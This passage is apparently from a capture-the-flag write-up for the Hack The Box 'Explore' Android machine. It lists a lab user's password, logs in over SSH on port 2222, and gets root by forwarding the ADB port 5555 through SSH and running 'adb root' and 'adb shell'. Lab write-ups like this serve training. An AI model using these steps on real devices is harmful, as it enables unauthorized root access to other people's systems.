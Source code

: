 Credentials
```txt
kristi:Kr1sT!5h@Rp3xPl0r3!
```

# Gain Access
SSH service is running on port `2222`, connect with the credentials and show `user.txt` flag
```bash
ssh -p 2222 kristi@explore.htb
cat /sdcard/user.txt
```

<a href="/assets/images/htb-machine-explore/htb-machine-explore_user.png"><img src="/assets/images/htb-machine-explore/htb-machine-explore_user.png"></a>

# Privilege Escalation
Checking the network connections, we observe that port `5555` is listening, this port is used by default by `ADB` (Android Debug Bridge).
```bash
netstat -nlpt
```

<a href="/assets/images/htb-machine-explore/htb-machine-explore_006.png"><img src="/assets/images/htb-machine-explore/htb-machine-explore_006.png"></a>

So lets try to port **forward** it through ssh and try to connect it through our box
```bash
ssh -p 2222 kristi@explore.htb -L 5555:localhost:5555
```

Use `adb` to get root access, find flag and show.
```bash
adb -s localhost:5555 root
```
```bash
adb -s localhost:5555 shell
```
```bash
find / -name "root.txt" 2>/dev/null
```
```bash
cat /data/root.txt
```